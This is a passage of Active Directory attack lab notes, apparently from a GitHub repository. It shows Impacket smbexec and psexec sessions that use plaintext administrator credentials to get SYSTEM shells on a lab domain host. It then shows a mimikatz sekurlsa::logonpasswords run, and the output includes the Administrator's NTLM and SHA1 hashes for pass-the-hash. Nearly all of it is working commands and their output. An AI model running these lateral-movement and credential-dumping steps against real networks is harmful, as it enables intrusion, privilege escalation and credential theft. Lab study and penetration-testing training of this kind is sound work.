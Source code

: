 	[*] SMBv3.0 dialect used
	[!] Launching semi-interactive shell - Careful what you execute
	[!] Press help for extra shell commands
	C:\>whoami
	valhalla\administrator

## smbexec

	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ /usr/bin/impacket-smbexec valhalla/administrator:Pass123\!@192.168.200.100                                                                     1 ⚙
	Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

	[!] Launching semi-interactive shell - Careful what you execute
	C:\Windows\system32>whoami
	nt authority\system


## psexec

	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ /usr/bin/impacket-psexec valhalla/administrator:Pass123\!@192.168.200.100                                                                  1 ⨯ 1 ⚙
	Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

	[*] Requesting shares on 192.168.200.100.....
	[*] Found writable share ADMIN$
	[*] Uploading file SJmjamtF.exe
	[*] Opening SVCManager on 192.168.200.100.....
	[*] Creating service qeWU on 192.168.200.100.....
	[*] Starting service qeWU.....
	[!] Press help for extra shell commands
	Microsoft Windows [Version 6.3.9600]
	(c) 2013 Microsoft Corporation. All rights reserved.

	C:\Windows\system32>whoami
	nt authority\system

# Pass the Hash

open mimikatz on Admin or SYSTEM privilege. Get password and hash from memory

	mimikatz # privilege::debug
	Privilege '20' OK

	mimikatz # sekurlsa::logonpasswords

	Authentication Id : 0 ; 2524343 (00000000:002684b7)
	Session           : CachedInteractive from 1
	User Name         : Administrator
	Domain            : VALHALLA
	Logon Server      : ODIN
	Logon Time        : 8/21/2021 7:16:03 PM
	SID               : S-1-5-21-3410397846-649609989-2919355437-500
			msv :
			 [00010000] CredentialKeys
			 * NTLM     : c718f548c75062ada93250db208d3178
			 * SHA1     : b27655136bebed1e53ded6cb9f837c450e7bb524
			 [00000003] Primary
			 * Username : Administrator
			 * Domain   : VALHALLA
			 * NTLM     : c718f548c75062ada93250db208d3178
			 * SHA1     : b27655136bebed1e53ded6cb9f837c450e7bb524
			tspkg :
			wdigest :
			 * Username : Administrator
